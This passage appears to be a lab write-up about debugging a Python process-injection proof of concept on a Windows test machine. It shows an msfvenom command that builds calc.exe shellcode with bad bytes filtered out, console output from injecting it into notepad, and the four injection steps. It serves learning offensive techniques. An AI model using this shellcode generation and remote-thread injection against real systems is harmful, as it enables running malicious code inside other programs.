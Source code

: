 Generating the code is done by specifying bad bytes in msfvenom. The shellcode can then be generated as follows:
```s
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -b '\x00' -f python
```

The generated code opens calc.exe and exits the current thread. 

When replacing the shellcode from the POC with this one and executing the python script, it crashes the process. In my case plain old notepad was the victim.

## Investigating the crash
In order to debug the crash, I started with looking into each step of the injection in a debugger.
If we break down the injection then it consists of the following steps:

1. acquire handle to process
2. allocate memory 
3. write memory
4. start new thread at memory

Since the injection code already has some basic error handling when one of the steps fails, we are most likely looking at a problem that is related the execution of our code. This would explain why we get the following output from the script:

```s
PS C:\Users\IEUser\Desktop\documentation_procInj> C:\Users\IEUser\AppData\Local\Programs\Python\Python37\python.exe .\code_injection.py 448
<class 'bytes'>
[*] code injection successfull (thread ID: 0x0000143c)
PS C:\Users\IEUser\Desktop\documentation_procInj>
```

So our injection seems to be successful but crashes the program. This is most likely because the started thread runs into an execution error, since no prior step reported any issues.

Lets look into it by adding some debug output. For this I added debug output similar to this after steps 1,2 and 3:

```s
print("arg_address ", hex(arg_address))
input("press enter to continue")
```

Obviously other variables were used as print output in the other steps.

Executing this leads to the following output:
```s
ocal\Programs\Python\Python37\python.exe .\code_injection.py 308
<class 'bytes'>
h_process  0x1d8
press enter to continue
arg_address  -0x1bb90000
press enter to continue
```

Hum, so arg_address, which is the location of the page that has been allocated, seems to be in the wrong format. Maybe this has to do with how the variable is displayed rather than being a problem with the allocation?!
